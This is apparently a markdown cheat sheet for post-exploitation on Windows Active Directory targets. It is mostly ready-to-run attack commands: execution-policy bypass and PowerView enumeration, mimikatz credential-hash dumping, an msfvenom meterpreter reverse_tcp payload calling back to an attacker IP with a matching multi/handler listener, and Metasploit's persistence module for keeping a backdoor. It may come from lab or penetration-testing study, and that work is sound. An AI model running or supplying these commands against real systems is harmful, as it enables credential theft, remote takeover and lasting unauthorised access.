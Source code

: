 # Post exploitation
Following examples have been tested on Windows targets with a SSH connections

Any question ? 
**Here is the answer :** https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

## Enumeration w/ PowerView
***CheatSheet*** : 
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Starts powershell
```cmd
powershell -ep bypass
```

We can now load PowerView module
```ps
.\Downloads\PowerView.ps1
```

- Enumerate domain users `Get-NetUser | select cn`
- Enumerate domain groups `Get-NetGroup`
- Enumerate selected domain groups `Get-NetGroup -GroupName *admin*`
- Enumerate shares `Invoke-ShareFinder`
- Gather system informations `Get-NetComputer -fulldata`


## Dumping hashes w/ mimikatz
Start mimikatz and verify that you have admin perms (OK 20)
```cmd
.\mimikatz.exe
privilege::debug
```
Dump those hashes!
```mimikatz
lsadump::lsa /patch 
```
Time to crack !  

## Enumeration w/ Server Manager
(This requires a RDP connection)
```
Start Windows Server Manager
```

```
Navigate to the tools tab and select the tool you want 
```

## Maintaining access w/ Metasploit
### Upgrade to meterpreter
1. We want to upgrade our shell to a meterpreter. to do so, we need to use msfvenom to generate a payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCALIPADDR LPORT=4444 -f exe -o shell.exe
```
Example :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.14.34 LPORT=4444 -f exe -o shell.exe
```
2. Transfer the payload to the target
```bash
scp shell.exe Administrator@CONTROLLER:shell.exe
```
3. Start and set up a multi/handler listener (ips, ports and payload need to match with the msfvenom payload)
```bash
msfconsole
use multi/handler
set LHOST 10.8.14.34
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```
4. Execute the payload on the target machine
5. Verify that you received a meterpreter shell

## Run persitence module
Now, we can background the session to run the persitence module
```msfconsole
CTRL+Z
use exploit/windows/local/persistence
sessions
set session RIGHT_SESSION_NUMBER
run
```

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.